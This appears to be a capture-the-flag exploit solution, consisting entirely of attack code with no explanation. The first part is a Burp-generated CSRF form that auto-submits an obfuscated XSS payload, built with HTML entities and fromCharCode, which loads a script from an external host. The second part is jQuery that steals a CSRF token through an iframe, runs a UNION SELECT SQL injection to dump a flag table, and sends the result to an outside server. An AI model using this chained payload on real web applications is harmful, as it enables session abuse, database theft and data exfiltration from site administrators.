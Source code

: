    ```html
   <html>
     <!-- CSRF PoC - generated by Burp Suite Professional -->
     <body onload="document.forms[0].submit()">
     <script>history.pushState('', '', '/')</script>
       <form action="http://seafaring.xctf.org.cn:9999/admin/handle_message.php" method="POST">
         <input type="hidden" name="token" value="111&apos;&lt;svg&#32;onload&#61;&apos;var&#32;myScript&#61;&#32;document&#46;createElement&#40;String&#46;fromCharCode&#40;115&#44;&#32;99&#44;&#32;114&#44;&#32;105&#44;&#32;112&#44;&#32;116&#41;&#41;&#59;myScript&#46;type&#61;String&#46;fromCharCode&#40;32&#44;&#32;116&#44;&#32;101&#44;&#32;120&#44;&#32;116&#44;&#32;47&#44;&#32;106&#44;&#32;97&#44;&#32;118&#44;&#32;97&#44;&#32;115&#44;&#32;99&#44;&#32;114&#44;&#32;105&#44;&#32;112&#44;&#32;116&#41;&#59;myScript&#46;src&#61;String&#46;fromCharCode&#40;104&#44;&#32;116&#44;&#32;116&#44;&#32;112&#44;&#32;58&#44;&#32;47&#44;&#32;47&#44;&#32;111&#44;&#32;106&#44;&#32;46&#44;&#32;109&#44;&#32;111&#44;&#32;109&#44;&#32;111&#44;&#32;109&#44;&#32;111&#44;&#32;120&#44;&#32;105&#44;&#32;97&#44;&#32;111&#44;&#32;120&#44;&#32;105&#44;&#32;46&#44;&#32;99&#44;&#32;111&#44;&#32;109&#44;&#32;47&#44;&#32;101&#44;&#32;120&#44;&#32;112&#44;&#32;49&#44;&#32;46&#44;&#32;106&#44;&#32;115&#41;&#59;document&#46;body&#46;appendChild&#40;myScript&#41;&#59;&apos;&gt;" />
         <input type="submit" value="Submit request" />
       </form>
     </body>
   </html>
   ```

   ```js
   #jquery code
   frameOnload = function () {
       var token = window.frames[0].window.csrf_token;
       var status = '-1 union select flllllag,2,3,4 from f111111ag -- ';
       view_unreads(token, status)
   };
   function view_unreads(csrf_token, status) {
       $.ajax({
           type: "POST",
           url: "/admin/handle_message.php",
           data: {"token": csrf_token, "action": "view_unreads", "status": status},
           dataType: "json",
           success: function (data) {
               if (!data["error"]) {
                   data = data['result'];
                   send_secret(data);
               }
               else  send_secret(data["error"]);
           }
       });
   }
   
   function send_secret(data){
       var url = 'http://oj.momomoxiaoxi.com:9090'
       $.get(url, {'key1':data});
   }
   var iframe = document.createElement('iframe');
   iframe.src = "http://ctf.momomoxiaoxi.com/admin/index.php";
   iframe.onload = frameOnload;
   document.body.appendChild(iframe);
   ```
